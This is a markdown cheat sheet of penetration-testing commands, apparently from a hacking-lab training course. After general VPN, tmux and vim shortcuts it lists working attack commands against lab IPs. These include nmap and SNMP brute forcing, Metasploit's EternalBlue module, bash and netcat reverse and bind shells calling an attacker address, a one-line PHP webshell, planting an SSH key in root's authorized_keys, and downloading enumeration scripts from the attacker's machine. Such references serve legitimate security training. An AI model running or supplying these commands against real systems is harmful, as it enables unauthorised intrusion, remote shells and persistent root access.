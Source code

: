   

**Command** | **Description**
|--|--|
**General** | 
`sudo openvpn user.ovpn` | Connect to VPN
`ifconfig`/`ip a` | Show our IP address
`netstat -rn` | Show networks accessible via the VPN
`ssh  user@10.10.10.10` | SSH to a remote server
`ftp 10.129.42.253` | FTP to a remote server
**tmux** | 
`tmux`  | Start tmux
`ctrl+b` | tmux: default prefix
`prefix c` | tmux: new window
`prefix 1` | tmux: switch to window (`1`)
`prefix shift+%` | tmux: split pane vertically
`prefix shift+"` | tmux: split pane horizontally
`prefix ->` | tmux: switch to the right pane
**Vim**  |
`vim file` | vim: open  `file`  with vim
`esc+i` | vim: enter  `insert`  mode
`esc` | vim: back to  `normal`  mode
`x` | vim: Cut character
`dw` | vim: Cut word
`dd` | vim: Cut full line
`yw` | vim: Copy word
`yy` | vim: Copy full line
`p` | vim: Paste
`:1` | vim: Go to line number 1.
`:w` | vim: Write the file 'i.e. save'
`:q` | vim: Quit
`:q!`  | vim: Quit without saving
`:wq` | vim: Write and quit

## Pentesting
**Command** | **Description**
|--|--|
**Service Scanning** |
`nmap 10.129.42.253` | Run nmap on an IP
`nmap -sV -sC -p- 10.129.42.253` | Run an nmap script scan on an IP
`locate scripts/citrix` | List various available nmap scripts
`nmap --script smb-os-discovery.nse -p445 10.10.10.40` | Run an nmap script on an IP
`netcat 10.10.10.10 22` | Grab banner of an open port
`smbclient -N -L \\\\10.129.42.253` | List SMB Shares
`smbclient \\\\10.129.42.253\\users` | Connect to an SMB share
`snmpwalk -v 2c -c public 10.129.42.253 1.3.6.1.2.1.1.5.0` | Scan SNMP on an IP
`onesixtyone -c dict.txt 10.129.42.254` | Brute force SNMP secret string
**Web Enumeration** |
`gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt` |Run a directory scan on a website
`gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt` | Run a sub-domain scan on a website
`curl -IL https://www.inlanefreight.com` | Grab website banner
`whatweb 10.10.10.121` | List details about the webserver/certificates
`curl 10.10.10.121/robots.txt` | List potential directories in  `robots.txt`
`ctrl+U` | View page source (in Firefox)
**Public Exploits** |
`searchsploit openssh 7.2` | Search for public exploits for a web application
`msfconsole` | MSF: Start the Metasploit Framework
`search exploit eternalblue` | MSF: Search for public exploits in MSF
`use exploit/windows/smb/ms17_010_psexec` | MSF: Start using an MSF module
`show options` | MSF: Show required options for an MSF module
`set RHOSTS 10.10.10.40` | MSF: Set a value for an MSF module option
`check` | MSF: Test if the target server is vulnerable
`exploit` | MSF: Run the exploit on the target server is vulnerable
**Using Shells** | 
`nc -lvnp 1234` | Start a  `nc`  listener on a local port
`bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'` | Send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f`| Another command to send a reverse shell from the remote server
`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc -lvp 1234 >/tmp/f` | Start a bind shell on the remote server
`nc 10.10.10.1 1234` | Connect to a bind shell started on the remote server
`python -c 'import pty; pty.spawn("/bin/bash")'` | Upgrade shell TTY (1)
`ctrl+z`  then  `stty raw -echo`  then  `fg`  then  `enter`  twice| Upgrade shell TTY (2)
`echo "<?php system(\$_GET['cmd']);?>" > /var/www/html/shell.php` |Create a webshell php file
`curl http://SERVER_IP:PORT/shell.php?cmd=id` | Execute a command on an uploaded webshell
**Privilege Escalation** | 
`./linpeas.sh` | Run  `linpeas`  script to enumerate remote server
`sudo -l` | List available  `sudo`  privileges
`sudo -u user /bin/echo Hello World!` | Run a command with  `sudo`
`sudo su -` | Switch to root user (if we have access to  `sudo su`)
`sudo su user -` | Switch to a user (if we have access to  `sudo su`)
`ssh-keygen -f key` | Create a new SSH key
`echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys` | Add the generated public key to the user
`ssh  root@10.10.10.10  -i key` | SSH to the server with the generated private key
**Transferring Files** |
`python3 -m http.server 8000` | Start a local webserver
`wget http://10.10.14.1:8000/linpeas.sh` | Download a file on the remote server from our local machine
`curl http://10.10.14.1:8000/linenum.sh -o linenum.sh` | Download a file on the remote server from our local machine
`scp linenum.sh user@remotehost:/tmp/linenum.sh` | Transfer a file to the remote server with  `scp`  (requires SSH access)
`base64 shell -w 0` | Convert a file to  `base64`
`echo f0VMR...SNIO...InmDwU | base64 -d > shell` | Convert a file from  `base64`  back to its orig
`md5sum shell` | Check the file's  `md5sum`  to ensure it converted correctly
<!--stackedit_data:
eyJoaXN0b3J5IjpbOTAyMjEwNzg1XX0=
-->